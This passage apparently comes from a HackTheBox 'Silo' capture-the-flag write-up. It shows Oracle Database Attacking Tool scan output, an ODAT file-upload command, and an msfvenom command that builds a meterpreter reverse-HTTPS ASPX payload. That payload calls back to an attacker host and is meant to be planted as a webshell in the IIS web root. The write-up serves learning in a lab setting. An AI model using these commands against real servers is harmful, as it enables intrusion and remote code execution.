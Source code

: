 ```console
[-] KO
[2.8] Hashed Oracle passwords ?
[+] OK
[2.9] Hashed Oracle passwords from history?
[-] KO
[2.10] DBMS_XSLPROCESSOR library ?
[+] OK
[2.11] External table to read files ?
[-] KO
[2.12] External table to execute system commands ?
[-] KO
[2.13] Oradbg ?
[-] KO
[2.14] DBMS_LOB to read files ?
[+] OK
[2.15] SMB authentication capture ?
[-] KO
[2.16] Gain elevated access (privilege escalation)?
[+] The current user has already DBA role. It does not need to exploit a privilege escalation!
[2.17] Modify any table while/when he can select it only normally (CVE-2014-4237)?
[-] KO
[2.18] Obtain the session key and salt for arbitrary Oracle users (CVE-2012-3137)?
[-] KO
```
`DBMS_XSLPROCESSOR library` is enabled and therefore allows us to put any files onto the machine. Here is the command that will do so:
```console
root@EdgeOfNight:~# python odat.py dbmsxslprocessor -s 10.10.10.82 -d XE -U v3ded -P v3ded99 --putFile "c:\Windows\\" "v3ded.txt" "/tmp/v3ded.txt" 
```
> Arguments for DBMS_XSLPROCESSOR: --putFile remotePath remoteFile localFile

Proof:
<a href="https://v3ded.github.io/img/blog/htb-silo/htb-silo-04.png" target=_blank>
<img src="/img/blog/htb-silo/htb-silo-04.png">
</a>

You might be asking, how do I missuse this simple file upload? Good question. If you still remember, there is a running IIS web server. By uploading an ASPX webshell onto the server and then activating it by visiting the shell's page you can get a reverse shell (or any other code execution for that matter). The shell I will be using will be Metasploit's *meterpreter* (you can use anything). 

First generate a shell with msfvenom:
```console
root@EdgeOfNight~# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.15.193 LPORT=443 -f aspx > /tmp/v3dedShell.aspx
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 500 bytes
Final size of aspx file: 3606 bytes

```
and proceed to upload it with `DMBS_XSLPROCESSOR` into `C:\inetpub\wwwroot\` (default IIS) directory. Start your Metasploit listener and activate the payload.
